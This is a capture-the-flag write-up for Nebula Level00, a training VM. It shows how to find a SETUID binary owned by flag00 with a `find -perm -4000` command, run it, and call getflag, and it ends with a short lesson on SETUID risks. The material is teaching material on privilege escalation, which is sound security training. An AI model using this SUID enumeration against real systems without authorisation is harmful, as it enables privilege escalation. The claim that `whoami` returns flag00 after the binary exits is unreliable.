 ## 🧪 Nebula - Level00

> **Category:** Privilege Escalation (SUID)  
> **Goal:** Execute `getflag` as user `flag00`  
> **System:** GNU/Linux – Nebula VM  
> **Required skills:** Basic understanding of UNIX permissions

---

### 🔍 Description

The first level of the *Nebula* VM requires you to find a binary with the **SETUID** bit set, owned by the `flag00` user, and execute it to obtain the flag.

---

### 🔎 Finding the vulnerable file

Let's search for **SETUID** files owned by `flag00`:

```bash
find / -perm -4000 -user flag00 2>/dev/null
```

Output:

```
/bin/.../flag00
/rofs/bin/.../flag00
```

Choose the first real path `/bin/.../flag00` and explore it:

```bash
cd /bin/...
ls -l
```

Output:

```
-rwsr-x--- 1 flag00 level00 7358 ... flag00
```

The file has the **SETUID** bit (`-rws...`) and is executable by `level00`.

---

### 🚀 Executing the binary

Run it directly:

```bash
./flag00
```

Output:

```
Congrats, now run getflag to get your flag!
```

The message suggests the binary has **executed something with elevated privileges** (as `flag00`).

Let's verify:

```bash
whoami
# flag00
```

Now you can obtain the flag:

```bash
getflag
```

Output:

```
You have successfully executed getflag on a target account
```

---

### ✅ Full solution

```bash
find / -perm -4000 -user flag00 2>/dev/null
cd /bin/...
./flag00
getflag
```

---

### 🔐 Security lesson

This level demonstrates the **risks associated with SETUID binaries**. If a SETUID binary does not perform **input validation or privilege dropping**, it can be abused to **run commands with someone else's rights**, even if not directly vulnerable.

---